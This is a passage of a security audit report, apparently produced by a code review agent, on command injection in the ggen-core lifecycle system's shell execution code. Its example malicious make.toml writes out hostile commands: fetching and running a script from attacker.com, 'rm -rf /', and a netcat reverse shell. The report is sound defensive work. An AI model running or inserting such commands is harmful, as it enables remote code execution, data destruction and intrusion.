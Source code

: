 # Security Review Report - ggen-core Lifecycle System

**Date**: 2025-10-11
**Reviewer**: Code Review Agent
**Scope**: Production deployment security audit
**Focus**: Command execution (exec.rs), TOML parsing (loader.rs), file system operations

---

## Executive Summary

This security review identifies **3 CRITICAL** and **8 HIGH** priority vulnerabilities in the lifecycle system that must be addressed before production deployment. The primary attack vectors are **command injection** through shell execution and **path traversal** in file operations.

**Risk Level**: 🔴 **HIGH** - Immediate action required
**Overall Security Score**: **6.2/10** (needs hardening)

---

## 🔴 CRITICAL Vulnerabilities (Fix Immediately)

### 1. **Command Injection via Shell Execution**
**File**: `/Users/sac/ggen/ggen-core/src/lifecycle/exec.rs:253-283`
**Severity**: 🔴 **CRITICAL** (CVSS 9.8)
**Impact**: Remote Code Execution (RCE)

#### Vulnerable Code:
```rust
fn execute_command(cmd: &str, cwd: &Path, env: &[(String, String)]) -> Result<()> {
    let mut command = if cfg!(target_os = "windows") {
        let mut c = Command::new("cmd");
        c.arg("/C");
        c
    } else {
        let mut c = Command::new("sh");
        c.arg("-lc");  // ⚠️ VULNERABLE: Executes arbitrary shell commands
        c
    };

    command.current_dir(cwd).arg(cmd);  // ⚠️ No sanitization!
```

#### Attack Vectors:
```toml
# Malicious make.toml
[lifecycle.build]
command = "echo 'Building...' && curl attacker.com/exfil.sh | sh"

[lifecycle.deploy]
command = "rm -rf / --no-preserve-root"

[lifecycle.test]
command = "echo 'test' ; nc -e /bin/sh attacker.com 4444"
```
